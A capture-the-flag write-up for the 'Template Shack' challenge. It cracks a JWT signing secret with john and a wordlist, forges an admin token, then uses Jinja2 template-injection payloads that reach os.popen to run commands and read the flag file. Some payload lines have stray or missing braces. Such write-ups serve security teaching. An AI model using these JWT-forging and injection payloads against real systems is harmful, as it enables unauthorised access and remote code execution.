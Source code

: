 ## Write up Template Shack

On the website we got a session-token and token that seems to be a jwt:
to get the secret we have to bruteforce the jwt, using john:

``echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.9SvIFMTsXt2gYNRF9I0ZhRhLQViY-MN7VaUutz9NA9Y" > jwt.hash``
To crack it:
``john jwt.hash -w=/usr/share/wordlists/rockyou.txt``
we get the secret as ``supersecret``
![b4120f50ec01db439c6b1a0b2e17f8f3.png](_resources/c7897f309d1b41bca6694b0c50fe6bb6.png)

Decoding it:
![677ce90eb3b8a89b93597677284bfdb0.png](_resources/edef173f1f924dd4bf4b9be989e5d2b4.png)



Now it's time to create a new token and sign it using the jwt_tool:

![e569e3c4d816e07a1b772e43a10ec4dd.png](_resources/27c86bb8667e43888b85f2fe27a54223.png)

Using the tool to change guest for admin and sign it with the key:

![67ab31baeab4bf5345583493879465ab.png](_resources/0d09dd7005ed411fa6e80dab4dec1292.png)

Our brand new jwt token with "admin" ``eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ykqid4LTnSPZtoFb11H+/2q+Vo32g4mLpkEcajK0H7I``
changing the token with this value gives us access to de admin panel:

![1b97e21508f7ed17c791a153c436aacb.png](_resources/cf524efaf471459a914df674074bf974.png)

I noticed that inside the admin template when a webpage doesn't exists it renders the endpoint on the 404, for example if I look for /admin/abt.html I got:

![d26a25bb83b73a84cb913901c4a06eaa.png](_resources/ee4ef6fa2e3149428fcd900e2f90cb41.png)

This added to the name of the challenge made me think about template injection and bingo:

![0ada9bdc9cc0f7636be6951b93d8ee7f.png](_resources/bc7b222a05394a07b2d0e41d87e9f0f7.png)

So there is probably python running on the backgroung as this is a feature of flask jinja so let's find it out with ``{{ [].__class__.__base__.__subclasses__() }}``:

![1a41206868d5c17e10b3a8cf7044e622.png](_resources/f164d7016bf643edaba7377899c1188b.png)

So now we just need to use the os library to read the flag:
``{{ request.application.__globals__.__builtins__}}}`` we can access the builtins so we will try to import the os with ``{ request.application.__globals__.__builtins__.__import__('os')}}``

![9ea482a3850c3e64e933167c48b47b7f.png](_resources/d3ff18b2a9f648c9a3e9e75fb19e4543.png)

Its time to find the flag.txt ``{{ request.application.__globals__.__builtins__.__import__('os').popen('find / -name flag.txt').read()}}``

![c1c780927a45638edfbabb212872c8e8.png](_resources/d7e17b2be5c141bc8fcee36137c945e4.png)

and finally cat the flag ``{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /home/user/flag.txt').read()}}``

![9c8b0fc698ca5267541f7672ddb4da4c.png](_resources/133eb074a30742abafd3d3486a1bd323.png)

And that was all!
